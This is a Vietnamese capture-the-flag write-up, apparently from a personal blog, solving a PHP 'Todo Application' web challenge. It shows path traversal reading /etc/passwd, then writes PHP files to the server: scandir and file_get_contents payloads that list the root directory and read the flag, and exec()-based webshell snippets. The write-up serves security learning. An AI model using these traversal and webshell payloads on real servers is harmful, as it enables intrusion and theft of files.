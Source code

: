 ```yaml
---
title: Write-Up Todo Application
date: 2023-10-05 18:34:01 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

ĐỊA CHỈ: [https://battle.cookiearena.org/challenges/web/todo-application](https://battle.cookiearena.org/challenges/web/todo-application)

## **Challenge Details**

All your work will be saved to a checklist in the todo.txt file. Can a PHP Web Shell be created on this server? Could you try and read FLAG? (Chắc lại phải RCE ời).

- **Flag Location: /flagXXXX.txt**
- **Flag Format: CHH{XXX}**
- **Credits: YesWeHack**

## **Tags**

- Code Injection
- PHP
- YesWeHack

## **Web Analysis:**

Tại `/` trang web:

Quan sát ta thấy 1 ô input và 1 đoạn code PHP hmm.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled.png)

Mình thử nhập bất kì vào ô input và ấn enter.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%201.png)

Ta quan sát thấy và rằng xuất hiện 2 parameter `?add` và `&fileTodo` 

Hiểu nhanh là `?add=input_strings` và  `&fileTodo=_input_file` —> **+1 idea test bug path traversal**

## **Source Code Analysis:**

Này không copy được code nên mình giải thích nhanh nhé:

khai báo biến $file với giá trị là todo.txt khi input ta nhập vào checkbox và nó sẽ set vào param là ?add + với $file là todo.txt.

Nên bất kì mình nhập vào ô input thì nó đều ghi vào file.

Nhưng đoạn code không có thêm blacklist hay whitelist kiểm tra về ghi mã độc và kiểm tra đuôi file. Nên đều này có thể dẫn đến hacker có thể ghi 1 file webshell vào input và đỗi đuôi file từ .txt sang .php dẫn dến có thể RCE hệ thống.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%202.png)

yaaa kiểm chứng nào.

## **Exploiting Code Injection, Path traversal:**

Chứng minh có bug path traversal ( Là 1 hacker giỏi không bao giờ bỏ sót bugs, dù nó không có Flag trong đó nhưng vẫn check nhé).

### Cách 1: sử dụng hàm scandir và file_get_contents

Gói tin ban đầu.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%203.png)

Thử thêm ../../etc/passwd vào $filetodo xem có được hay không nhé.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%204.png)

Bèm có bugs path traversal luôn, lòi luôn cái path file index.php 🙂 (do file flag random nên không xem được bằng lỗi này, phải RCE thôi)

đoạn code trong cái ảnh ở trên nè

`/var/www/app/index.php`

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%205.png)

Chứng minh ghi được code php và thay đỗi đuôi file.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%206.png)

Ghi vào khi báo bugs gì giờ test `/info.php` xem. 

Tèn ten được luôn đây này, giờ thì làm cái file shell và đọc file flag thôi nhỉ?

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%207.png)

Nhưng mình test 7749 cách ghi shell nhưng phát hiện bị disable funtions nên hết ghi được file shell
(à không phải hết mà do test thiếu case 🙂 nó sẽ ở cách 2 nhé, giờ mình chỉ cách bị disable funtions)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%208.png)

Tuy vậy mình phát hiện ra rằng nó không hề disable `file_get_contents` và `scandir` .

- `scandir` : liệt kê tất cả các file (giống cmd ls trên ls)
- `file_get_contents` : đọc file

Giờ code nhẹ nhé

Search google về scandir thì có sẵn rồi : [ở đây nè](https://www.w3schools.com/php/func_directory_scandir.asp)

ở khúc bug path traversal ấy, ../../../ 3 lần là quay về thư mục gốc nên sửa lại trong này để liệt kê các file ở thư mục gốc nhé.

Payload: 

```php
<?php
$dir = "../../../";
$a = scandir($dir);
print_r($a);
?>
```

Lười ghi nên copy past qua đây cho lẹ

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%209.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2010.png)

Send và đọc file `1.php`

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2011.png)

1 file pha ke và 1 file real.

biết được tên file flag rồi thì dùng `file_get_contents` đọc ra thôi.

Payload:

```php
<?php
$dir = "../../../";
$a = scandir($dir);
$b =file_get_contents("../../../flagqsBKh.txt");
print_r($a);
print_r($b);
?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2012.png)

DONE cách 1

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2013.png)

### Cách 2: sử dụng hàm EXEC RCE.

Mình đã test thiếu case này do không khai báo biến. Để rồi mò luôn cả CVE của php lạc hướng luôn :<

Bình thường mình test webshell sẽ kiểu như này.

```php
<?php exec(id); ?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2014.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2015.png)

Nó không cho in ra, nên mình đã loại trừ nó nhanh chóng để test case khác.

Nhưng mình đã sai, giờ cũng sửa nhé.

Vì trang web hình như không cho `echo` ra trực tiếp nên mình sẽ khai báo biến và test lại.

Payload:

```php
<?php
$a = exec(id);
echo($a)
?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2016.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2017.png)

Giờ thì thực thi webshell bình thường

```php
<?php
$a = exec('ls /');
echo($a)
?>
```

Xem file và cat file nhé

donee =)))

Cảm ơn các bạn đã xem write up của mình =)) có góp ý hay thắc mắc add mình qua discord nha 

id discord : `ren6806`